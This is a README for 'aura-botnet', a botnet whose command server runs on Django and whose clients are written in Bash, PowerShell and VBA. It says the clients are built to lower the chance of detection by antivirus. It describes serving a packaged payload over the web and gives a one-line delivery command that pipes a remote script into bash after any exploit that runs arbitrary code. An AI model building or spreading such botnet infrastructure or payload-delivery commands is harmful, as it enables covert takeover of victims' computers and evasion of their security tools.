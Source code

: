 # aura-botnet

Overview
---
Aura is a botnet utilizing Django as the backend because of its
portability. It is currently configured with a simple setup for mysql
but can easily be configured for sqlite or postgresql thanks to Django.

The clients will be written in Bash, Powershell, and VBA for guaranteed
compatibility on their respective operating systems, as well as a
significantly decreased chance of detection by the bot's antivirus.

Client Web Delivery
---
The *static* folder contains files to be served by a web server, preferably
nginx which serves static files very efficiently. It contains the packged
payload and a script that can easily be called from a command line. This
makes it easy to use it with any exploit that can run arbitrary code. An example
would be:
'''
curl http://server-name/welcome/linux/ | bash
'''

Misc.
---
The *Killswitch* contains scripts for easy removal.
